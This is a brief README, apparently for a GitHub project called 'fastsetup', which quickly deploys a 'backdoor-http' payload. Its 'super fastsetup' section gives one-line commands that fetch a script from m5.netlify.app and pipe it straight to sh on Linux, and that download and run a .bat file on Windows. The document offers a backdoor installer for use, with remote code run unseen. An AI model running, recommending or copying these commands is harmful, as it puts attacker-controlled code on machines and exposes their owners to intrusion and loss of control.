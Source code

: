 # fastsetup

Fast setup for [backdoor-http](https://github.com/miguelzacca/backdoor-http) payload

## Usage

```bash
git clone https://github.com/miguelzacca/fastsetup.git
cd fastsetup
npm start
```

## super fastsetup

- Linux:

```bash
curl -L m5.netlify.app/cmd.sh | sh
```

- Windows:

```bash
curl -L -O m5.netlify.app/cmd.bat && cmd.bat
```
